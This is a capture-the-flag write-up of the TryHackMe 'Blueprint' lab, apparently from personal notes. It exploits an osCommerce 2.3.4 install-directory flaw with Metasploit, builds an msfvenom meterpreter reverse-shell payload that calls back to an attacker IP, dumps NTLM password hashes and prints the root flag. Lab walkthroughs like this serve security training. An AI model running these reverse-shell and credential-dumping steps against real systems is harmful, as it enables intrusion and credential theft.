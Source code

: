 # Blueprint - Metasploit

---

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled.png)

---

# Enumeration

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%201.png)

```tsx
PORT      STATE  SERVICE      VERSION
80/tcp    open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
.
.
.
8080/tcp  open   http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
```

On the default port `80` of target machine running `http` service, the `http-title` is `404` which mean the page is not set up on this port

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%202.png)

Let’s move to port `8080` which has multiple directories such as:

- `oscommerce-2.3.4/`
- `oscommerce-2.3.4/catalog/`
- `oscommerce-2.3.4/docs/`

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%203.png)

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%204.png)

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%205.png)

View the `catalog/` path and it return a html page → Get around and find some vulnerabilities in here

# Exploit

After researching about ************oscommerce 2.3.4************, there is a directory `/install` which could exploitable

```
If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible for an unauthenticated attacker to reinstall the page
```

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%206.png)

Start the ********************metasploit******************** and search for Module `oscommerce`

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%207.png)

Set the options as following with your own `LHOST` and `LPORT`

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%208.png)

Let’s exploit

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%209.png)

We are in but the the shell is not stable

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2010.png)

Here, we need a payload reverse shell to get through this

Create a shell with `msfvenom`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Blueprint]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.97.213 LPORT=4242 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes

┌──(kali㉿kali)-[~/TryHackMe/Blueprint]
└─$ ls -l 
total 76
-rw-r--r-- 1 kali kali 73802 Jun 18 10:32 shell.exe
```

Start another ******************metasploit****************** and use module `exploit/multi/handler`

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2011.png)

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2012.png)

Type `exploit` to start listening

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2013.png)

Go back to the first ******************metasploit****************** window, upload the `shell.exe` and `execute` it

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2014.png)

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2015.png)

```
meterpreter > hashdump                                                                                                                           
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::                                                           
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

We got the hash → Use ********************Crackstation******************** to crack the hash and get the NTLM decrypted

![Untitled](Blueprint%20-%20Metasploit%20bece5b0bb02746c5aabbc5a1b9b7abb5/Untitled%2016.png)

Back to the previous ********************metasploit********************, navigate to `C:\Users\Administrator\Desktop` → Get the root flag

```
meterpreter > pwd                                                                                                             
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
meterpreter > cd C:
meterpreter > cd Users                                                                                                                                       
meterpreter > cd Administrator                                                                                                                               
meterpreter > cd Desktop                                                                                                                                     
meterpreter > ls                                                                                                                                             
Listing: C:\Users\Administrator\Desktop                                                                                                                      
=======================================                                                                                                                      
                                                                                                                                                             
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-04-11 18:36:47 -0400  desktop.ini
100666/rw-rw-rw-  37    fil   2019-11-27 13:15:37 -0500  root.txt.txt

meterpreter > cat root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```